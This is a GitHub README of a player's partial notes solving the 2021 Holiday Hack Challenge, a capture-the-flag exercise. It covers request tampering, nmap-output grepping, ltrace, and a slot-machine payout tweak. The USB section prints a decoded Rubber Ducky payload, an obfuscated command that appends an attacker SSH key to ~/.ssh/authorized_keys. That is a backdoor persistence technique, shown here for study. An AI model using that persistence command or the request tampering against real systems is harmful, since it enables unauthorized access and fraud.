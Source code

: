 # HolidayHackChallenge2021
**<p align="center">**
![image](https://user-images.githubusercontent.com/33500545/148440994-34860215-6845-493c-b5b1-a9d237360875.png)
</p>
<p align="center">
Just a few of my notes from 2021 HolidayHackChallenge, not complete yet... still adjusting to github.
</p>




# Now Hiring
You are directed to apply for a job over at https://apply.jackfrosttower.com/
So first thing is to check the site out, when you click on Opportunities you will notice that the images do not load.  There are 4 images (1.jpg, 2.jpg,3.jpg,4.jpg).
So I decided to run this through burp as the images aren’t valid it seems.

I enabled my proxy and went to apply.jackfrosttower.com/images and that resulted in a ngix error, I then sent that request to repeater, and in repeater i tried 1.jpg, with no result.  Then i tried 2.jpg and found the super secret key.
No WIN
![image](https://user-images.githubusercontent.com/33500545/148627937-e53e60be-4605-48fd-bc20-01a8a781c8cc.png)
WIN
![image](https://user-images.githubusercontent.com/33500545/148627923-aa7de3c7-2f85-4439-83f7-bc1c762baa12.png)

# Strange USB Device

Ducky-decode.pl inject.bat
Echo ‘==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4WdmxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRVNFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1GZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ’ | rev

Echo 
'ZWNobyAnc3NoLXJzYSBVbU41UkhKWldIZHJTSFJvZG1WdGFWcDBkMWwzVTJKcVoyZG9SRlJIVEdSdFQwWnpTVVpOZHlCVWFHbHpJR2x6SUc1dmRDQnlaV0ZzYkhrZ1lXNGdVMU5JSUd0bGVTd2dkMlVuY21VZ2JtOTBJSFJvWVhRZ2JXVmhiaTRnZEVGS2MwdFNVRlJRVldwSFpHbE1SbkpoZFdkU1QyRlNhV1pTYVhCS2NVWm1VSEFLIGlja3ltY2dvb3BAdHJvbGxmdW4uamFja2Zyb3N0dG93ZXIuY29tJyA+PiB+Ly5zc2gvYXV0aG9yaXplZF9rZXlzCg==' | base64 -d

echo 'ssh-rsa UmN5RHJZWHdrSHRodmVtaVp0d1l3U2JqZ2doRFRHTGRtT0ZzSUZNdyBUaGlzIGlzIG5vdCByZWFsbHkgYW4gU1NIIGtleSwgd2UncmUgbm90IHRoYXQgbWVhbi4gdEFKc0tSUFRQVWpHZGlMRnJhdWdST2FSaWZSaXBKcUZmUHAK ickymcgoop@trollfun.jackfrosttower.com' >> ~/.ssh/authorized_keys

# Frost Ice Melt Castle
```
Iwlist wlan0 scanning
Iwconfig wlan0 essid FROST-Nidus-Setup
“* New network connection to Nidus Thermostat detected! Visit http://nidus-setup:8080/ to complete setup”
Curl http://ndius-setup:8080/
```
Need to adjust the api: 
```http://nidus-setup:8080/apidoc
elf@85f15cd56977
```
Run this twice: 
```
curl -XPOST -H 'Content-Type: application/json' \
  --data-binary '{"temperature": -0}' \
  http://nidus-setup:8080/api/cooler
```
![image](https://user-images.githubusercontent.com/33500545/148628021-70fd4605-b318-4324-b059-d267c73c91d9.png)

# Slot Machine Investigation

Go to: https://slots.jackfrosttower.com/
Press F12 (Firefox Developer Tools)
Click on Network
Click SPIN once
![image](https://user-images.githubusercontent.com/33500545/148628055-9f3c3676-fbfc-4b55-82ea-c934bf88b186.png)

On the right where you see Resend click the drop/up arrows and choose edit/resend and modify the cpl=0.1 to cpl=0.99
![image](https://user-images.githubusercontent.com/33500545/148628064-4c26c0d2-e463-485d-9508-c06756be4645.png)
Click Send and go back and check the response, if you win it will increase.

# Grep for Gold
What port does 34.76.1.22 have open? 
```62078```
What port does 34.77.207.226 have open? 
```8080```
How many host appear “Up” in the scan? 
```26054```
Nano bigscan.gnmap and its in the final line.
How many host have a web port open? 
```17238```
How many host have a wep port open? 
```14372
grep -E "80/open|443/open|8080/open" -E "/Status: Up" -c bigscan.gnmap
```
How many host with status up have no detected open tcp ports?
```1st part - grep -c "Status: Up" bigscan.gnmap```
(minus)
```2nd part - grep -wc "tcp"  bigscan.gnmap```
```= 402```
Whats the greatest number of TCP ports any one host has opened?
I just cycled through quizme until I hit 12.  Then i went back and did this:
```grep -E "(open.*){12,}" bigscan.gnmap | wc -l && grep -E "(open.*){13,}" bigscan.gnmap | wc -l```

# Strace/Ltrace/Candy Making

```Ltrace ./make_the_candy```
shows there is a missing registration json file.  So i created one with nano and imputed some garbage text.
Ran ltrace again and resulted in code so i put that into the registration json but changed every null value to True and every number output to true.  Ran again and success.
```
open("registration.json", "r")                       = 0x55b2b4c5a260
getline(0x7ffee5309490, 0x7ffee5309498, 0x55b2b4c5a260, 0x7ffee5309498) = 30
strstr("fopen("registration.json","r"\n", "Registration") = nil
getline(0x7ffee5309490, 0x7ffee5309498, 0x55b2b4c5a260, 0x7ffee5309498) = 32
strstr("getline ("Registration"), ("n")\n"..., "Registration") = "Registration"), ("n")\n"
strchr("Registration"), ("n")\n", ':')                = nil
getline(0x7ffee5309490, 0x7ffee5309498, 0x55b2b4c5a260, 0x7ffee5309498) = 35
strstr("strstr("fopen registration.json\\"..., "Registration") = nil
getline(0x7ffee5309490, 0x7ffee5309498, 0x55b2b4c5a260, 0x7ffee5309498) = 25
strstr("getline ("Registration")\n", "Registration")  = "Registration")\n"
strchr("Registration")\n", ':')                       = nil
getline(0x7ffee5309490, 0x7ffee5309498, 0x55b2b4c5a260, 0x7ffee5309498) = 29
strstr("strstr("\\n", "Registration")\n", "Registration") = "Registration")\n"
strchr("Registration")\n", ':')                       = nil
getline(0x7ffee5309490, 0x7ffee5309498, 0x55b2b4c5a260, 0x7ffee5309498) = 1
strstr("\n", "Registration")                          = nil
getline(0x7ffee5309490, 0x7ffee5309498, 0x55b2b4c5a260, 0x7ffee5309498) = -1
```
![image](https://user-images.githubusercontent.com/33500545/148628170-38863e92-9dc6-4fb3-a812-bb391ab2f5c8.png)


